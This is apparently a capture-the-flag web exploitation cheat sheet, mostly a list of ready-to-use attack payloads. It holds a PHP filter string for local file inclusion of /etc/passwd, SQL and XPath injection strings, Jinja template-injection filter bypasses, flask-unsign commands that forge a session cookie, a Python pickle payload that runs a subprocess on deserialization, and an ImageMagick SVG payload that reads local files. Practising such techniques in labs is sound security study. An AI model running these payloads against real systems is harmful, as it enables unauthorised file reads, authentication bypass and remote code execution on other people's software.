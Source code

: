### Interesting files

- `/robots.txt`
- `/.git`
- `/sitemap.xml`

### Interesting protocols

- `file:///etc/passwd`

### Local File Inclution

- `?file=php://filter/convert.base64-encode/resource=/etc/passwd`

### SQLi

- `UNION`

```
' UNION SELECT current_database() as name --
' AND 1=0 UNION SELECT COLUMN_NAME FROM information_schema.COLUMNS --
```

### XPath Injection

```
'or string-length(name(.))=5 or '!'='
' or substring(//user[userid=5]/username,2,1)=codepoints-to-string(INT_ORD_CHAR_HERE) or '!'='
'or contains(.,'admin') or'
a' or (substring((//flag)[1], 1, 1)) = 'a
```

### Type juggling with data

- `Playing with header`

  - `curl -H "User-Agent: SUPER SECRET AGENT" http://victim.com/`
  - [code](https://github.com/ByamB4/CCC/blob/master/Web%20Exploitation/src/post-nullbyte.py)

### Server side template injection (SSTI)

- `Python`

  - Filtered `.`, `[]`
    - `obj.attribute` -> `obj|attr('attribute')` (`attr` is a filter in jinja template engine)
    - `obj[index]` -> `obj.__getitem__(index)` -> `obj|attr('__getitem__')(index)`
    - `obj['key']` -> `obj.__getitem__('key')` -> `obj|attr('__getitem__')('key')`

### JWT

- `Flask session cookie`
    - `flask-unsign --decode --cookie eyJsb2dnZWRfaW4iOmZhbHNlfQ.Yg9geQ.s8MKSRemMQyS5S60QTS0lY0Xg0o`
    - `flask-unsign --unsign --cookie < cookie.txt`
    - `flask-unsign --sign --cookie "{'logged_in': True}" --secret 'password'`
    
- https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee


### Python pickle

```python
import pickle, base64

class DillPickle:
  def __reduce__(self):
    import subprocess
    return (subprocess.check_output, (['/bin/cat', '/ls'],))

p = pickle.dumps(DillPickle())
print(base64.b64encode(p).decode('ASCII'))
```

### Imagemagick

- File upload read local file (xxe)

  - Payload 
    ```
      <?xml version="1.0" encoding="UTF-8"?>
      <svg width="500px" height="500px">
        <image width="500" height="500" href="text:/etc/passwd" />
      </svg>
    ```
